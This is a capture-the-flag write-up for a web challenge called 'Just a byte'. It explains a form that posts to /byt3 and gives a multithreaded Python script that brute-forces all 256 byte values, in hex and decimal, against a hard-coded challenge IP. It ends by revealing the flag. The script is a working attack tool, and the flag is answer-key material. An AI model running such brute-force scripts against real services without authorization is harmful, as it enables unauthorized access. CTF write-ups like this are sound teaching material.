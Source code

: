 # Just a byte

We have a web page that simply says: ***“Just give me a byte.”***. Also having with a form that submits a value using the POST method to /byt3. If the input is wrong, it returns: *Not the right one.*

There’s likely a single valid byte expected by the backend. The input form uses the name message, and the goal is to discover what valid input (1 byte in some form) will result in getting the flag.

```html
<form action="/byt3" method="post">
  <input type="text" name="msg" id="msg">
  <input type="hidden" name="message" id="message">
  <input type="submit" value="Submit">
</form>
```

The input from msg is copied into the hidden message field via JavaScript before submission. So the final submitted key is always message, and this is what the server checks.

The core idea is to brute-force all possible byte values, submitted in multiple formats:
- Hexadecimal: lowercase (00 to ff)
- Hexadecimal: uppercase (00 to FF)
- Decimal: (0 to 255)

The goal is to trigger any response different from "Not the right one.".

## Exploit Script

```python
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

url = "http://141.85.224.118:5005/byt3"
headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
}

# build payload list: (label, ascii_string)
payloads = []
for i in range(256):
    # 2-digit hex, lowercase + uppercase as the app is case sensitive
    payloads.append((f"hex_{i:02x}",  f"{i:02x}"))
    payloads.append((f"HEX_{i:02X}",  f"{i:02X}"))
    
    # decimal
    payloads.append((f"dec_{i}",      str(i)))


def try_payload(label, msg):
    data = {"message": msg}
    try:
        r = requests.post(url, headers=headers, data=data, timeout=4)
        txt = r.text.strip()
        print(f"[*] {label:10} → '{msg}' → {txt[:40]!r}")
        if txt != "Not the right one.":
            return f"\nFound byte: {label}: '{msg}'\n{txt}\n"
            break
    except Exception as e:
        return f"[!] Error {label}: {e}"
    return None


with ThreadPoolExecutor(max_workers=60) as ex:
    futures = [ex.submit(try_payload, lab, m) for lab, m in payloads]
    for fut in as_completed(futures):
        res = fut.result()
        if res:
            print(res)
            break
```

When executed, the script quickly identifies the correct byte format accepted by the backend. And the flag was: **SSS{d1d_you_try_th3m_all}** at byte **d8**.
